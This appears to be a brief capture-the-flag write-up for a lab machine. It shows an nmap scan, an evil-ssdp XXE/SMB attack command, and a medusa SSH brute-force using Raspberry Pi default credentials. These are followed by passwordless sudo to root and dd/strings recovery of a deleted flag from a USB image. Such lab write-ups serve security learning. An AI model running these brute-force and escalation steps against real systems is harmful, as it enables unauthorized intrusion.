 PORT      STATE SERVICE VERSION                                                
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:                                                                 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76                                           
| dns-nsid:                                                                    
|_  bind.version: dnsmasq-2.76                                                 
80/tcp    open  http    lighttpd 1.4.35
| http-methods:                                                                
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.35                                          
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1562/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth:                                                                   
| HTTP/1.1 401 Unauthorized\x0D                                                
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-favicon: Plex                                                           
|_http-title: Unauthorized                                                     
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


![](2021-02-12-15-44-28.png)


By requesting content from 127.0.0.1 an attacker can bypass all authentication

and execute commands with administrative privileges.

git clone https://gitlab.com/initstring/evil-ssdp

./evil_ssdp.py tun0 -t xxe-smb

![](2021-02-12-15-58-14.png)

![](2021-02-12-15-59-47.png)

Pi-hole Version v3.1.4 Web Interface Version v3.1 FTL Version v2.10

medusa -h 10.10.10.48 -u pi -p raspberry -M ssh

ssh login


pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

pi@raspberrypi:~ $ sudo su



root@raspberrypi:/home/pi# cat /root/root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...

root@raspberrypi:/home/pi# cd /media/usbstick/
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James


https://unix.stackexchange.com/questions/288059/how-can-i-safely-recover-deleted-data-from-a-usb-flash-drive

root@raspberrypi:/media/usbstick# mount | grep usb
/dev/sdb on /media/usbstick type ext4 (ro,nosuid,nodev,noexec,relatime,data=ordered)



dd if=/dev/sdb of=usb.img
20480+0 records in
20480+0 records out
10485760 bytes (10 MB) copied, 0.204967 s, 51.2 MB/s


sudo mount usb.img ./mount


strings usb.img